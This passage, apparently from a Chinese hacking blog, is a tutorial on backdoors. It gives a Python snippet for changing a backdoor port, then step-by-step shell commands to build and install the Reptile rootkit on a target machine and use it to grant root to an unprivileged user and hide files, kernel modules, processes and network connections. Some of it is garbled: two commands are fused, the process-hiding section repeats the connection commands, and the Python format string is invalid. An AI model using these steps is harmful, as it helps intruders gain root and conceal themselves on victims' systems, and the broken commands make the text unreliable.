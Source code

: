         

**修改后门的端口**

    # python2
    import struct
    buffer = struct.pack('>I6',8888)
    print(repr(buffer))
    
        

##### Rookit

Rootkit 是一种特殊的后门，可以在目标机器上隐藏自身以及指定的文件，进程，网络连接信息

下面以一款开源 rootkit 为例，简单介绍一下它的用法以及功能特点

    https://github.com/f0rb1dd3n/Reptile
    
        

目标机安装 Reptile

    apt install libncurses-dev
    git clone https://github.com/f0rb1dd3n/Reptile.git
    cd Reptile
    make menuconfig
    make
    make installapt-cache search linux
    
        

目标机后门配置-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004221632280.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004221639464.png%23pic_center)-
**目标机本地使用**

赋予非特权用户以 root 权限

    /reptile/reptile_cmd root
    
        

隐藏显示文件，目录和内核模块-
名称中具有关键字 reptile 的所有文件和文件夹将被隐藏，关键字可以在安装之前进行配置

    /reptile/reptile_cmd hide
    /reptile/reptile_cmd show
    
        

隐藏显示进程

    /reptile/reptile_cmd conn <IP> hide
    /reptile/reptile_cmd conn <IP> show
    
        

隐藏显示 TCP 和 UDP 连接

    /reptile/reptile_cmd conn <IP> hide
    /reptile/reptile_cmd conn <IP> show
    